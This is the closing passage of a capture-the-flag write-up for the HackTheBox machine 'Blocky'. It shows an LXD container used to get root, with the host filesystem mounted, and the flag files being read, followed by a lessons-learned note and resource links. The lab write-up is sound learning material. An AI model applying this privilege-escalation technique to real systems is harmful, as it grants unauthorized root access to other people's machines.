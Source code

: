 This pops us into a container with `root` permissions and the target file system mounted in the `/mnt/root/` folder. So we can access anything on the file system.

```none
notch@Blocky:/dev/shm$ lxc exec mycontainer /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # wc -c /mnt/root/root/root.txt 
32 /mnt/root/root/root.txt
~ # wc -c /mnt/root/home/notch/user.txt 
32 /mnt/root/home/notch/user.txt
```

Done!

## Lessons Learned

- Don't wait for passwords to crack, it may not be the way!

## Useful Resources

- [HackTheBox - Blocky by ippsec](https://www.youtube.com/watch?v=C2O-rilXA6I)
- [HTB: Blocky by 0xdf](https://0xdf.gitlab.io/2020/06/30/htb-blocky.html)
